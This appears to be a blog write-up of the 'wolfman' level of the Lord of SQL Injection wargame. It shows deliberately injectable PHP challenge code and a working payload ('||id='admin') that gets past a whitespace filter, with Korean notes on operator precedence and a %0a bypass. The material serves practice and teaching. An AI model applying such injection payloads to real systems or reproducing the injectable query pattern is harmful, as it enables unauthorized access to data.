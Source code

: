 ```yaml
---
layout: post
title:  "los prob_wolfman"
date:   2019-08-23
excerpt: "Lord of Sql Injection"
tag:
- los
- sqli
- wargame
- webhacking
comments: true
---
```

> query : select id from prob_wolfman where id='guest' and pw=''

~~~ php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
~~~

# Solve

* 공백이 필터링 -> 우회 -> "\|\|" 사용
* 연산자 우선 순위 -> and > or 

### ?pw=noonzib'||id='admin

## WOLFMAN Clear!

> 문제 의도는 웬지 공백 우회를 '%0a'로 하는 것 같음 